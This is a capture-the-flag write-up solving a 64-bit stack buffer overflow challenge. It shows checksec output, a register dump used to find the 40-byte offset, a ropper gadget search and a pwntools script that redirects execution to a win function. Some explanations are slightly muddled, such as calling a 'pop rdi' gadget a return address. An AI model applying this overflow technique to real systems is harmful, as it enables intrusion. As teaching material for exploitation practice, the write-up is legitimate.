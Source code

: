 # Intro 4

For this challenge we have no source code and only the binary.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

64 bit no PIE and NX enabled.

Ghidra shows us we have a main, vuln and win function

![](pics/1.png)

vuln:
![](pics/2.png)

win:
![](pics/3.png)

Okay so this is the same as intro 3 but we are 64 bit now not 32 bit.

This does change a few things for how we have to write our exploit.

First lets get the offset using cyclic 

```
RAX  0x7fffffffe4e0 ◂— 0x6161616261616161 ('aaaabaaa')
 RBX  0x0
 RCX  0x7ffff7f9c980 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RDX  0x0
 RDI  0x7ffff7f9e9a0 (_IO_stdfile_0_lock) ◂— 0x0
 RSI  0x4056b1 ◂— 0x6361616162616161 ('aaabaaac')
 R8   0x7fffffffe4e0 ◂— 0x6161616261616161 ('aaaabaaa')
 R9   0x0
 R10  0x6e
 R11  0x246
 R12  0x401090 (_start) ◂— endbr64
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x6161616a61616169 ('iaaajaaa')
 RSP  0x7fffffffe508 ◂— 'kaaalaaamaaa...'
 RIP  0x4011c9 (vuln+31) ◂— ret
```

We are looking at the values loaded into RSP "kaaa" checking with cyclic we get the offset of 40

No PIE again so we have the address of win but we can not just call the win function the same way we did with 32bit. we will need a return address otherwise the exploit will just fail.

We can use the tool "ropper" to get this
```ropper --file pwnme --search "pop rdi"```

This returns:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: pwnme
0x0000000000401253: pop rdi; ret;
```

Okay so the address we want is 0x401253

pwntools can also find this address for us by using the ROP function 

load the binary into it using "rop = ROP(exe)" were exe is your binary.

and calling rop.raw(rop.ret) will find this ret address for us.

Next we need the win function but again to make life easier we can use pwntools rop function: rop.win() but the win function needs to contain a parameters 0xdeadbeef and because its 64 bit we need to send that twice.

My final payload looks like this:
```
io = start()
rop = ROP(exe)
OFFSET = 40


payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
payload += rop.chain()

io.sendline(payload)
io.interactive()
```

![](pics/4.png)




